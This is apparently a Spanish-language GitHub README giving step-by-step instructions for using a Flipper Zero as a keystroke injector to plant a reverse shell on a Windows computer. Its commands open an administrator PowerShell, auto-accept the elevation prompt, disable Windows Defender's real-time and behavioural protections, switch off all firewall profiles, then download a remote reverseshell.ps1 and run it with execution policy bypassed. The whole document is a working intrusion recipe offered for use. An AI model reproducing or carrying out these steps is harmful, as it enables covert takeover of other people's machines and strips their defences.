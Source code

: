 # PASOS PARA INYECTAR UNA REVERSESHELL EN UN EQUIPO DESDE UN FLIPPER ZERO.

1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```





















